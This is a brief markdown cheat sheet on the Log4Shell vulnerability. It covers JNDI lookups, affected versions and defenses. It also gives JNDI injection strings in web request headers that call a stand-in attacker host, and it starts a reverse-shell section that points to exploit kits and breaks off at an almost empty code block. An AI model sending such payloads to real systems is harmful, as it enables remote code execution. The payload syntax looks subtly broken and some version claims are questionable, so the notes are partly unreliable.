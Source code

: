 # Log4Shell

# Notes

- An attacker must submit a JDNI (Java Naming and Directory Interface) lookup that points to their server
- Not only servers are vulnerable. Client, servers, IOT devices, anything running Java and Log4j is exploitable.
- Log4j will parse input and will look for any of the lookups
- JNDI lookups start with `$jndi:`
- LDAP and RMI protocols can be used in exploitation

# Vulnerable versions

- Versions 1.x are not vulnerable.
- Only version 2.x - 2.14 are vulnerable.
- Version 2.15 is now patched and not vulnerable.

# Defense

- Patch - v2.15

If you can't patch for any reason:

- Disable remote lookups
- Use firewall to prevent remote calls to unexpected servers

# Exploitation

Simply send the special parameter `${jndi:ldap//attacker.com/a}` in a web request header:

```bash
User-Agent: ${jndi:ldap//attacker.com/a}
X-Forwarded-For: ${jndi:ldap//attacker.com/a}
Referer: ${jndi:ldap//attacker.com/a}
X-Api-Call: ${jndi:ldap//attacker.com/a}
```

## Reverse Shell

Git clone both:

- [https://github.com/pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)

### Create the payload

```java
cd ysoserial-modified/target

```